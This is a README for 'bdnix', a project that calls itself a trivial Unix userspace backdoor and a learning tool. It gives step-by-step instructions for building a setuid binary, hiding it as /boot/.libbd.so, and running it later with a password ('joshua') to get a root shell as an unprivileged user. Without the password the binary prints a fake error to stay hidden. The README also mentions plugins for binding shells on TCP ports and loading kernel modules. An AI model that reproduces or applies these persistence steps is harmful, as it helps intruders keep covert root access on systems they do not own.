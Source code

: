  <pre>
      ___           ___           ___                       ___     
     /\  \         /\  \         /\__\          ___        |\__\    
    /::\  \       /::\  \       /::|  |        /\  \       |:|  |   
   /:/\:\  \     /:/\:\  \     /:|:|  |        \:\  \      |:|  |   
  /::\~\:\__\   /:/  \:\__\   /:/|:|  |__      /::\__\     |:|__|__ 
 /:/\:\ \:|__| /:/__/ \:|__| /:/ |:| /\__\  __/:/\/__/ ____/::::\__\
 \:\~\:\/:/  / \:\  \ /:/  / \/__|:|/:/  / /\/:/  /    \::::/~~/~   
  \:\ \::/  /   \:\  /:/  /      |:/:/  /  \::/__/      ~~|:|~~|    
   \:\/:/  /     \:\/:/  /       |::/  /    \:\__\        |:|  |    
    \::/__/       \::/__/        /:/  /      \/__/        |:|  |    
     ~~            ~~            \/__/                     \|__|    
 </pre>

<p>Trivial userspace backdoor for Unix</p>
</p>Emanuele Paiano - nixw0rm@gmail.com</p>

<h6>This is a learning tool, so use it ONLY on your home systems (like 
Desktop PC or Raspberry Pi). I'm not responsable for abuses. 
Use it at your risk!  </h6>                         

------------------
 GETTING STARTED
------------------

1) Open root terminal in current directory and go into bdnix folder
  <pre>
   # cd /path/bdnix
   </pre>
2) From root run 'make' to build binary file
  <pre>
   # make
   </pre>
3) copy created file (i.e. libbd.so) with -p option to a hidden location like /bin, /etc,
<pre>
   # cp -p libbd.so /boot/.libbd.so
   # chmod +sx /boot/.libbd.so
   </pre>       
   and setuid file (chmod +x).


4) logout from server and log in again with unprivileged user. 


5) Run binary with joshua to enable backdoor
<pre>
   $ /boot/.libbd.so joshua /bin/sh

   if you see '#' then.. you are root! :)
   </pre>

6) if you run without joshua password, you can read a (fake) error:
<pre>
   /bin/sh: cannot execute binary file
   </pre>

---------------------
 CUSTOMIZE PASSWORD
---------------------

Opening settings.h you can change default password "joshua" (can you remember WOPR?):
<pre><code>
#define ARG1 "joshua"
</code></pre>
we can change it to "chips"
<pre><code>
        #define ARG1 "chips"
</code></pre>
Now recompiling (read above) and running with new password:
<pre><code>
$ /boot/.libbd.so chips /bin/sh
#
</code></pre>
If we have rootshell, it works! :)


------------------
 ENABLING PLUGINS
------------------
Plugins are .h file in plugins/ folders. By plugins you can add code portions and
add new functionaties to bdnix (i.e. binding shell on TCP port, loading kernel module, etc).
To enable a plugin:

1) Open settings.h include file and search for options like:
<pre><code>
/* PLUGINS */

/* enable rootshell */
#define SHELL 1
</code></pre>       
2) Change 1 to enable, or 0 to disable code.

Example. If you have rootshell disabled and myplugin enabled:
<pre><code>
/* enable rootshell */
#define SHELL 0

/* my plugin */
#define MYPLUGIN 1
</code></pre>    
Your backdoor run MYPLUGIN code and ignore rootshell. You can enable more plugins together: 
all enabled plugins run in sequential mode. 

For adding or writing custom plugin, read WRITING A PLUGIN.


-------------------
 WRITING A PLUGIN
-------------------
1) If you need write plugin, you must create .h file into plugin using next template:
<pre><code>
int <PLUGIN_NAME>_init()
{
  //code plugin
}
</code></pre>
   replacing <PLUGIN_NAME> with your plugin's name and write you code inside function. 

2) Open bdcode.c and find this code into main():

    #if SHELL == 1
      shell_init(argv[2]);
    #endif
    
   and edit previos code in this:
   
    #if SHELL == 1
      shell_init(argv[2]);
    #endif
    #if <PLUGIN_NAME> == 1
      <PLUGIN_NAME>_init();
    #endif

   removing <PLUGIN_NAME> with you plugin's name.

   TIPS EXAMPLE: You can start to write you plugin editing RAW plugin.



----------
 LICENSE
----------
This code is released under GNU/GPL3 terms, read COPYING for info.
